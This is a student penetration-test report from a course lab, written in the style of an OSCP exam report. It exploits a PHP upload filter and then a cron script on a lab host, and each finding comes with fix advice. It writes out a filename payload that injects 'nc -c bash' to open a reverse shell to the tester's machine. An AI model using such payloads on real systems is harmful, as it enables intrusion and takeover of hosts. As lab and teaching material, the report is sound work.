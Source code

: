 ```yaml
---
title: "Offensive Security Checkpoint 01"
author: ["RM87187@fiap.com.br, RM86663@fiap.com.br, RM87101@fiap.com.br, RM87079@fiap.com.br, RM88582@fiap.com.br"]
date: "2022-09-01"
subject: "Pentest report"
subtitle: "OSCP like exam report"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
```

# Offensive Security OSCP like exam report


## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The students is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.

# High level summary

I was tasked with conducting an internal penetration test for the offensive security exam.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to carry out attacks, similar to those of a hacker and try to infiltrate the machine chosen by the teacher.
My overall goal was to assess the target and escalate privilege on the machine.
During internal penetration testing, several alarming vulnerabilities were identified in the target.

## Recommendations

We recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit this system in the future.

# Methodologies

We use a widely adopted approach to performing penetration testing.
Below is a summary of how we were able to identify and exploit each individual vulnerability found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, we were tasked with exploiting the target chosen by teacher.
The specific IP addresses were:

- 192.168.57.5

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.57.5      | **TCP**: 22,80,443\
		    

**Nmap Scan Results:**

![Nmap scan](imagem1.jpg)

*Initial Shell Vulnerability Exploited*

When enumerating the HTTP service, a "backup" directory was identified that has a directory listing issue and gave us access to a compressed file called "backup.tar".
![Directory Listing](path/imagem2.jpg)

After unzipping the file we can read the source codes:
![Source code - upload](path/uploadphp.jpg)
![Source code - lib](path/libphp1.jpg)
![Source code - lib](path/libphp2.jpg)

Analyzing the code, we can see that it checks if the file size is smaller than 60,000, checks if a file is actually being uploaded and checks if the file extension matches any of those in a predefined list. For that it uses the "getnameUpload" function, which exists in the "lib.php" file that is imported for use in the upload form.
This "getnameUpload" function creates a variable called "pieces" and splits the filename into parts, the "name" variable takes these pieces and replaces "." by "_" and the variable "ext" takes the last part after the "." to check the extension.
So when PHP executes the function, PHP takes the name of the image, for example "gabriel.png", reads it as an array and separates it into parts.
part 0 = gabriel
part 1 = png
It executes the variable "name" which has the value "gabriel", tries to replace all "." by "_" but as it has none, the value remains "gabriel" and executes the variable "ext" which has the value "png".
Now if we use the example "gabriel.php.png" PHP will separate it into 3 parts:
part 0 = gabriel
part 1 = php
Part 2 = png
The variable "name" still has the value "gabriel", it tries to replace all the "." by "_" but as it doesn't have any value, it's still "gabriel", but this time the variable "ext" will have "php.png" as its value.
We can also see a function called "check_file_type" that is checking the magic bytes of the file being uploaded, which means that just changing the extension in this case would not work, as the file must actually have the magic byte of a png or another file listed in the array earlier.

![Bless](path/bless.jpg)

After creating a PHP shell with the characteristics that we have already identified as being necessary, we get an RCE in the application.
![Uploading](path/requisicao.jpg)
![RCE](path/rce.jpg)

Using python we got the reverse shell.
![Reverse](path/reverse.jpg)


**Vulnerability Explanation: In this case, there were several vulnerabilities that led to the initial compromisement of the target, such as information disclosure due directory listing and unrestricted file upload.**

**Vulnerability Fix:
Directory listing can be disabled in the webserver configuration file.
To solve the information disclosure you can change the permission of the file "backup.tar".
Ways to fix unrestricted file upload issue:
- The file types allowed to be uploaded should be restricted to only those that are necessary for business functionality.
- Never accept a filename and its extension directly without having an allow list filter.
- The application should perform filtering and content checking on any files which are uploaded to the server. Files should be thoroughly scanned and validated before being made available to other users. If in doubt, the file should be discarded.**

**Severity: Critical**

**user.txt Proof Screenshot**
![Guly](path/gulyflag.jpg)


#### Privilege Escalation

When accessing the user directory "guly" we do not have permission to read the file "user.txt", however reading the file "crontab.guly" we can see that there is a configuration that executes the file "/home/guly/check_attack. php" every 3 minutes.
![Crontab](path/crontab.jpg)

So when reading the file check_attacks.php we can see a variable "$path" that has the static value defined as "/var/www/html/uploads", however the variable "value" is created receiving the input of "files".
The variable "files" is using PHP's "scandir" function passing the value "." meaning it wants to list all files and directories in THIS directory. Which means that if we create a file putting malicious content in the name PHP will probably try to execute it.
So, creating a file called ";nc -c bash 192.168.57.4 9999;" we can get a reverse shell as guly because in line code would be: "exec("nohup /bin/rm -f /var/www/html/uploads;nc -c bash 192.168.57.4 9999; > /dev/null 2>&1 &")"
![Malicious file](path/arquivomalicioso.jpg)
![Reverse as guly](path/reverseasguly.jpg)
![Guly](path/gulyflag.jpg)

After being as guly we run the command "sudo -l" and notice that there is a script that we have permission to run as root.
![SUID file](path/suid.jpg)

The script contains some variables with static content but others that are received by user input, and when it comes to network script where the variable format is "test=gabriel", then if we add a space after the term "gabriel" and we write, that term will be executed.
![Privesc](path/privesc.jpg)

*Additional Priv Esc info*

**Vulnerability Exploited: Command injection in the "check_attacks.php" script and abuse of network script with SUID.**

**Vulnerability Explanation: These vulnerabilities allowed command injection only by not handling user input and reflecting it directly in the script **

**Vulnerability Fix:Fix check_attacks.php handling with user input**

**Severity: Critical**

**Proof Screenshot Here:**
![Privesc](path/privesc.jpg)
